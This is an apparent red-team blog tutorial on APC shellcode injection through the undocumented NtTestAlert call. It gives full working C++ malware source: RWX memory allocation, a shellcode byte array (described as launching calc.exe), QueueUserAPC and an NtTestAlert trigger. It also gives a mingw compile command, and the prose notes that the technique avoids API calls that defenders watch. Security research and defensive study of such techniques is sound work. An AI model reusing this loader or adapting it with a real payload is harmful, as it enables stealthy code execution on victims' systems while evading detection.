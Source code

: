 ```yaml
---
title:  "APC injection via NtTestAlert. Simple C++ malware."
date:   2021-11-20 10:00:00 +0600
header:
  teaser: "/assets/images/22/2021-11-21_13-18.png"
categories: 
  - tutorial
tags:
  - APC injection
  - windows
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![APC injection](/assets/images/22/2021-11-21_13-18.png){:class="img-responsive"}    

This post is a Proof of Concept and is for educational purposes only.   
Author takes no responsibility of any damage you cause.      

In [last](/tutorial/2021/11/11/malware-injection-3.html) post I wrote about "Early Bird" APC injection technique.     

Today I will discuss about another APC injection technique. Its meaning is that we are using an undocumented function `NtTestAlert`. So let's go to show how to execute shellcode within a local process by leveraging a Win32 API `QueueUserAPC` and an officially undocumented Native API `NtTestAlert`.    

### NtTestAlert

**NtTestAlert** is a system call that’s related to the alerts mechanism of Windows. This system call can cause execution of any pending APCs the thread has. Before a thread starts executing it's Win32 start address it calls `NtTestAlert` to execute any pending APCs.    

### Example

Let's take a look at our C++ source code of our malware:    
```cpp
/*
hack.cpp
APC code injection via undocumented NtTestAlert
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/20/malware-injection-4.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

int main(int argc, char* argv[]) {
  SIZE_T my_payload_len = sizeof(my_payload);
  HMODULE hNtdll = GetModuleHandleA("ntdll");
  myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(hNtdll, "NtTestAlert"));

  LPVOID my_payload_mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(GetCurrentProcess(), my_payload_mem, my_payload, my_payload_len, NULL);

  PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)my_payload_mem;
  QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
  testAlert();

  return 0;
}
```

For simplicity, we use 64-bit `calc.exe` as the payload.    

The flow of this technique is simple. Firstly, we allocate memory in the local process for our payload:    

![APC injection 1](/assets/images/22/2021-11-21_13-49.png){:class="img-responsive"}    

Then write our payload to newly allocated memory:    

![APC injection 2](/assets/images/22/2021-11-21_13-50.png){:class="img-responsive"}    

Then queue an APC to the current thread:    

![APC injection 3](/assets/images/22/2021-11-21_13-52.png){:class="img-responsive"}    

Finally, call `NtTestAlert`:    

![APC injection 4](/assets/images/22/2021-11-21_13-53.png){:class="img-responsive"}    

Let's go to compile our code:   
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![APC injection 5](/assets/images/22/2021-11-21_13-58.png){:class="img-responsive"}    

And run on victim machine (Windows 7 x64 in my case):   

![APC injection 6](/assets/images/22/2021-11-21_14-03.png){:class="img-responsive"}    

And If open our `hack.exe` malware in `Ghidra`:

![APC injection 7](/assets/images/22/2021-11-21_15-12.png){:class="img-responsive"}    

the `NtTestAlert` function call is not suspicious. So the advantage of this technique is that it does not rely on `CreateThread` or `CreateRemoteThread` API calls which are more popular and suspicious and which is more closely investigated by the blue teamers.   

[APC MSDN](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)         
[QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)          
[VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)      
[GetModuleHandleA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)    
[APC technique MITRE ATT&CK](https://attack.mitre.org/techniques/T1055/004/)    
[NTAPI Undocumented Functions - NtTestAlert](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FAPC%2FNtTestAlert.html)    
[Ghidra - NSA](https://github.com/NationalSecurityAgency/ghidra/)    
[Source Code in Github](https://github.com/cocomelonc/2021-11-20-injection-4)    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

Thanks for your time and good bye!   
*PS. All drawings and screenshots are mine*